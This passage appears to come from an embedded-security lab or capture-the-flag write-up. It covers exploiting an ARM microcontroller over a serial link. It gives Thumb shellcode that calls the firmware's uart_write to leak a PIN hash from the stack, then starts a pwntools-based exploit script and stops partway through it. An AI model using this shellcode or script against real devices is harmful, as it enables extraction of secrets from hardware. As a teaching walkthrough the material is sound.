 The goal of this example is to exfiltrate the PIN hash, which is also stored on the stack. We can write some shellcode to accomplish this. This simple shellcode calls the an existing function `uart_write`, which can write arbitrary data to the host computer (which we can monitor).

    .thumb
        ldr r0, =0x4000c000 // HOST_UART
        ldr r1, =0x200020c9 // pin hash
        mov r2, #64
        ldr r3, =0xadb3     // uart_write
        blx r3

Since this is in thumb mode, we have to remember to set the LSB of the return address to 1.


<a id="org09804bb"></a>

## Full exploit code

Putting this together, we get the full exploit as shown below

    #!/usr/bin/env python3 -u
    
    from pwn import *
    import serial
    import os
    from time import sleep
    
    
    context.log_level = 'error'
    context.arch = 'arm'
    context.endian = 'little'
    context.bits = 32
    
    
    def open_serial():
        # find the first serial port and open it
        try:
            port = os.popen('ls /dev/tty.usb*').read().split()[0]
            print('port', port)
        except IndexError:
            print('No serial port found')
            return
    
        ser = serial.Serial(port, 115200, timeout=0)
        print('\nNew serial port opened: ' + port)
        return ser
    
    
    def slow_write(ser, data):
        """
        Send data in chunks of 16 bytes
    
        This is necessary because the UART buffer is only 16 bytes long, so if we
        send more than that, we may lose data.
        """
        while len(data) > 0:
            ser.write(data[:16])
            data = data[16:]
            sleep(0.1)
    